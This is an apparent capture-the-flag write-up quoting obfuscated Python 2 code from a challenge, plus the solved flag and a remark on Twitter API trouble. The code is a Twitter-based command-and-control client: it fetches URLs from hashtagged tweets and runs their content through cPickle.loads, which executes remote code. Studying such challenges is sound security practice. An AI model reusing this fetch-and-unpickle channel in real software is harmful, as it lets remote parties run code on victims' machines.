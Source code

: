 ```
o0oOo0Ooo0O = II111iiii . search ( q = '#' + OO0o , rpp = "250" , result_type = "mixed" , since_id = oo00 )
if 81 - 81: I1IiI * iiIIIII1i1iI * iI1Ii11111iIi - oO0o0ooO0 - Ooo00oOo00o
for OooO0OO in o0oOo0Ooo0O [ 'statuses' ] :
 if OooO0OO [ 'id' ] > oo00 :
  oo00 = OooO0OO [ 'id' ]
  if 28 - 28: ooO0OO000o
 iii11iII = 0
 try :
  for i1I111I in OooO0OO [ 'entities' ] [ 'hashtags' ] :
   if i1I111I [ 'text' ] == OO0o :
    iii11iII = 1
  if iii11iII == 1 :
   for i11I1IIiiIi in OooO0OO [ 'entities' ] [ 'urls' ] :
    if os . fork ( ) == 0 :
     IiIiIi = IiI1i ( oo00000o0 ( i11I1IIiiIi [ 'url' ] ) )
     if IiIiIi [ 0 : 5 ] == 'eko11' :
      cPickle . loads ( IiIiIi [ 5 : ] )
     os . _exit ( 0 )
     if 40 - 40: iii1II11ii . Oo . iIiiiI1IiI1I1 . ii1I
 except Exception , OOooO :
  print str ( OOooO )
  if 33 - 33: ii1II11I1ii1I + ooO0OO000o % i11iIiiIii . o0oOoO00o - IiII1IiiIiI1
oo ( oo00 )
# dd678faae9ac167bc83abf78e5cb2f3f0688d3a3
EKO{simple_C&C_RSAtu1ts}
```

Flag:
>EKO{simple_C&C_RSAtu1ts}

PS: I spent about 10 hours on this chall only because of the API. It never read my tweets. The admin fmunozs was cool and helpful and even used his account to tweet. Cheers man!